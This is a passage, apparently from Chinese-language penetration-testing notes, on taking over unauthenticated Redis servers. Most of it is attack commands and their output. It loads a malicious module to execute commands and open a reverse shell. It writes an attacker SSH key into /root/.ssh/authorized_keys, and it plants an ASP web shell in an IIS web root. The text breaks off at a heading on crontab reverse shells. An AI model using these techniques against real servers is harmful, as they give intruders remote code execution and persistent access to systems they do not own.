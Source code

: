 ```
redis 192.168.0.10:6379> module load ./so.so
//执行命令
redis 192.168.0.10:6379> system.exec "id"
"\buid=999(redis) gid=999(redis) groups=999(redis)\n"
//反弹shell
system.rev 127.0.0.1 9999    
#通过dump.rdb文件恢复数据
config set dbfilename dump.rdb
#删除exp.so
system.exec 'rm ./exp.so'
#卸载system模块的加载
module unload system
```
### 写ssh公钥
如果.ssh目录存在，则直接写入~/.ssh/authorized_keys
如果不存在，则可以利用crontab创建该目录
```
//本机生成ssh公钥
ssh-keygen –t rsa
//输出到foo.txt
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
//开始写入
cat foo.txt | proxychains redis-cli -h 10.160.31.181 -x set crackit
proxychains redis-cli -h 10.160.31.181
//设置目录
192.168.1.11:6379> config set dir /root/.ssh/
OK
//获取信息,此步骤可以省略
192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
//设置文件名
192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
//写入
192.168.1.11:6379> save
OK
```
或者
```
flushall
set 1 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGd9qrfBQqsml+aGC/PoXsKGFhW3sucZ81fiESpJ+HSk1ILv+mhmU2QNcopiPiTu+kGqJYjIanrQEFbtL+NiWaAHahSO3cgPYXpQ+lW0FQwStEHyDzYOM3Jq6VMy8PSPqkoIBWc7Gsu6541NhdltPGH202M7PfA6fXyPR/BSq30ixoAT1vKKYMp8+8/eyeJzDSr0iSplzhKPkQBYquoiyIs70CTp7HjNwsE2lKf4WV8XpJm7DHSnnnu+1kqJMw0F/3NqhrxYK8KpPzpfQNpkAhKCozhOwH2OdNuypyrXPf3px06utkTp6jvx3ESRfJ89jmuM9y4WozM3dylOwMWjal root@kali
'
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```
### 写webshell
```
192.168.59.4:6379> config set dir C:/inetpub/wwwroot/
192.168.59.4:6379> config set dbfilename 1.asp
192.168.59.4:6379> set x '<%execute(request("x"))%>'  //注意这里要用单引号
192.168.59.4:6379> save
```
### 利用contrab计划任务反弹shell
这个方法只能Centos上使用，Ubuntu上行不通，原因如下：
